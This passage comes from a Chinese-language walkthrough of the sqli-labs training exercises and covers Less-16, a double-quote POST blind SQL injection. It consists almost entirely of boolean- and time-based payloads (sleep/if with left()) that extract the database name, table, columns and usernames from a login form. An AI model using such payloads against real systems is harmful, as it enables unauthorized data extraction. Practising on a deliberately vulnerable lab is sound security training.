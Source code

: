 暴力破解列名

```
uname=admin' and left((select column_name from information_schema.columns where table_name ='users' limit 0,1),2)='id' --+&passwd=admin&submit=Submit
```

暴力破解字段

```
uname=admin' and left((select username from users limit 0,1),1)='D' --+&passwd=admin&submit=Submit
```

# **Less-16** 

**POST - Blind- Boolian/Time Based - Double quotes (基于bool型/时间延迟的双引号POST型盲注)**



### **方法一，时间延迟手工注入**

时间延迟测试payload

```
uname=admin") and sleep(5) --+&passwd=admin&submit=Submit
```

暴库长度payload

```
uname=admin") and if(length(database())=8,sleep(3),1) --+&passwd=admin&submit=Submit
```

暴库payload

```
uname=admin") and if(left(database(),2)='se',sleep(5),1) --+&passwd=admin&submit=Submit

uname=admin") and if(left(database(),8)='security',sleep(5),1) --+&passwd=admin&submit=Submit
```

爆表payload

```
uname=admin") and if(left((select table_name from information_schema.tables where table_schema=database() limit 3,1),1)='u',sleep(5),1) --+&passwd=admin&submit=Submit

uname=admin") and if(left((select table_name from information_schema.tables where table_schema=database() limit 3,1),5)='users',sleep(5),1) --+&passwd=admin&submit=Submit
```

暴出列名

```
uname=admin") and if(left((select column_name from information_schema.columns where table_name='users' limit 0,1),2)='id',sleep(3),1) --+&passwd=admin&submit=Submit
```

暴值payload

```
uname=admin") and if(left((select username from users limit 0,1),1)='D',sleep(3),1) --+&passwd=admin&submit=Submit


uname=admin") and if(left((select username from users limit 0,1),4)='Dumb',sleep(3),1) --+&passwd=admin&submit=Submit
```

